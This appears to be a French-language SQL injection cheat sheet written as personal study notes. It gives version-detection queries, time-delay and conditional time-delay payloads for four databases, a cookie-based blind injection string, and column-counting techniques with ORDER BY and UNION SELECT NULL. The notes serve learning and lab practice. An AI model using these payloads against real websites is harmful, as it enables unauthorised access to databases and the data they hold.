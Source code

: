 ###### Connaitre la version de la db :  
Database type                      Query  
Microsoft, MySQL                SELECT @@version  
Oracle                                       SELECT * FROM v$version  
PostgreSQL                             SELECT version()

###### Time delay :  
Oracle  
`dbms_pipe.receive_message(('a'),10)`  

Microsoft  
`WAITFOR DELAY '0:0:10'`

PostgreSQL  
`SELECT pg_sleep(10)`  

MySQL  
`SELECT SLEEP(10)`  


###### Conditional time delay :  
Oracle
`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`

Microsoft  
`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`  

PostgreSQL  
`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`

MySQL  
`SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`

**Symbole || concaténation** : Injection : `TrackingId=x'||pg_sleep(10)--` Le || entre le cookie et pg_sleep est très important, sans lui l'injection ne marche pas. En gros, le || sert à inclure pg_sleep dans la requête sql. Donc si le cookie est valide, alors pg_sleep va s'executer. Faut voir || comme un mix entre l'inclusion et un "alors". Si le cookie est valide ALORS pg_sleep. C'est pas hyper logique comme symbole dans cette utilisation donc fie toi vraiment à ma def.

in-band :  
Connaitre le nombre de colonnes :  
union-based :

**ORDER BY** : requête de base : `SELECT name, email FROM users WHERE id = '1';` Pour connaitre le nombre de colonne on va utiliser la clause ORDER BY. Cette clause sert à trier les données en fonction d'une colonne. Nous on s'en fout un peu, ce qu'on cherche à savoir c'est est ce que la fonction peut être réalisé. Injection : `1' order by 1--` Là on demande de trier le tableau en fonction de la colonne 1. Si on incrémente a chaque fois le numéro de colonne, on compte alors combien y'en a. Donc on répète en incrémentant jusqu'a ce qu'il retourne une erreur ou un truc dans le genre.

**NULL** : requête de base : `SELECT name, email FROM users WHERE id = '1';` Là on va utiliser NULL. C'est le meme principe sauf que la syntaxe est différente. Injection : `1' UNION SELECT NULL--` temps qu'on a pas d'erreur, on augmente le nombre de null comme ca : `1' UNION SELECT NULL,NULL--`.

###### Oracle :
